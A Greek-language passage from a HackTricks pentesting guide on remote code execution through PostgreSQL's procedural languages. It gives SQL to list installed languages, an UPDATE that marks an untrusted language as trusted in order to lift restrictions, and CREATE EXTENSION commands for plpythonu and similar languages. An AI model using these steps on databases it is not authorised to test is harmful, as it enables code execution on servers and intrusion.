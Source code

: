 # RCE with PostgreSQL Languages

<details><summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Γλώσσες του PostgreSQL

Η βάση δεδομένων PostgreSQL στην οποία αποκτήσατε πρόσβαση μπορεί να έχει εγκατεστημένες διάφορες **γλώσσες προγραμματισμού** που μπορείτε να καταχραστείτε για να **εκτελέσετε αυθαίρετο κώδικα**.

Μπορείτε να τις **εκτελέσετε**:

```sql
\dL *

SELECT lanname,lanpltrusted,lanacl FROM pg_language;
```

Οι περισσότερες γλώσσες προγραμματισμού που μπορείτε να εγκαταστήσετε στο PostgreSQL έχουν **2 εκδόσεις**: η **αξιόπιστη** και η **μη αξιόπιστη**. Η **μη αξιόπιστη** θα έχει ένα όνομα **που τελειώνει σε "u"** και θα είναι η έκδοση που θα σας επιτρέπει να **εκτελέσετε κώδικα** και να χρησιμοποιείτε άλλες ενδιαφέρουσες λειτουργίες. Αυτές είναι ορισμένες από τις γλώσσες που είναι ενδιαφέρουσες αν εγκατασταθούν:

* **plpythonu**
* **plpython3u**
* **plperlu**
* **pljavaU**
* **plrubyu**
* ... (οποιαδήποτε άλλη γλώσσα προγραμματισμού χρησιμοποιεί μια μη ασφαλή έκδοση)

{% hint style="warning" %}
Αν ανακαλύψετε ότι μια ενδιαφέρουσα γλώσσα είναι **εγκατεστημένη** αλλά **μη αξιόπιστη** από το PostgreSQL (**`lanpltrusted`** είναι **`false`**), μπορείτε να προσπαθήσετε να την **εμπιστευτείτε** με την παρακάτω γραμμή, ώστε να μην εφαρμοστούν περιορισμοί από το PostgreSQL:

```sql
UPDATE pg_language SET lanpltrusted=true WHERE lanname='plpythonu';
# To check your permissions over the table pg_language
SELECT * FROM information_schema.table_privileges WHERE table_name = 'pg_language';
```
{% endhint %}

{% hint style="danger" %}
Αν δεν βλέπετε μια γλώσσα, μπορείτε να προσπαθήσετε να τη φορτώσετε με (**πρέπει να είστε superadmin**):

```
CREATE EXTENSION plpythonu;
CREATE EXTENSION plpython3u;
CREATE EXTENSION plperlu;
CREATE EXTENSION pljavaU;
CREATE EXTENSION plrubyu;
```
{% endhint %}
